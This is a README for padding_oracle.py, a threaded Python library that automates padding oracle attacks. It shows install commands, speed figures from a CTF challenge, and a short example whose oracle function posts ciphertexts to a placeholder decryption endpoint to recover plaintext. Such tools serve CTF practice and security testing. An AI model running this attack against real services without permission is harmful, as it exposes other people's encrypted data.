 # padding_oracle.py

Extremely fast threaded [padding oracle](http://server.maojui.me/Crypto/Padding_oracle_attack/) automation script for Python 3.

## Install

Installing from PyPI:

```shell
pip3 install -U padding_oracle
```

Or, installing from GitHub:

```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance

Tested on [0x09] Cathub Party from EDU-CTF:

| Request Threads | Execution Time |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## Example

All you need is defining the **oracle function** to check whether the given cipher is correctly decrypted.

```python
from padding_oracle import *

import requests
sess = requests.Session()

def oracle(cipher):
    r = sess.post('http://some-website.com/decrypt', data={'cipher': base64_encode(cipher)})
    assert 'SUCCESS' in r.text or 'FAILED' in r.text
    return 'SUCCESS' in r.text

cipher = b'[      IV      ][    Block 1   ][    Block 2   ]'
plaintext = padding_oracle(cipher,  # cipher bytes      (required)
                           16,      # block size        (required)
                           oracle,  # oracle function   (required)
                           64)      # number of threads

```
